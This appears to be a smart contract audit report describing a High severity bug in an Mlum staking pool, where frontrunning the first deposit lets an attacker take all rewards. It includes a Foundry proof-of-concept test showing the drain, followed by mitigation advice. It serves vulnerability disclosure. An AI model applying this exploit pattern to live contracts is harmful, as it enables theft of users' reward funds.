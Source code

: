 Ambitious Glossy Cuckoo

High

# Initial Mlum pool user deposits can be frontrun to extract all the rewards

## Summary
The initial deposit can be frontrun extracting all of the rewards.

## Vulnerability Detail
A malicious user can frontrun the initial deposit, immediately harvesting and extracting all the rewards and even being able to set the lockTime as 1 second for minimized risk.

## Impact
High - Complete draining of reward funds.

## Code Snippet
This test can be added to the ```MlumStaking.t.sol``` test file.
```solidity
function testFrontRunAttack() public {
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 2 ether);

        _rewardToken.mint(address(_pool), 100_000_000);
        
        vm.startPrank(ALICE); // ALICE frontruns BOBs transaction to get all the rewards
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1);
        _pool.harvestPosition(1);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 365 days);
        vm.stopPrank();

        skip(1);
        vm.prank(ALICE); // ALICE can then withdraw 1 second later
        _pool.withdrawFromPosition(1, 1 ether);

        vm.prank(BOB);
        _pool.harvestPosition(2);

        console.log(_rewardToken.balanceOf(ALICE)); // 100_000_000
        console.log(_rewardToken.balanceOf(BOB)); // 0
    }
```
## Tool used
Foundry tests

## Recommendation
Use mitigation strategies similar to those used for a ERC4626 Vault inflation attack, such as dead shares (initial contract deposit on deployment). And setting a minimum locking time can discourage bad behaivour.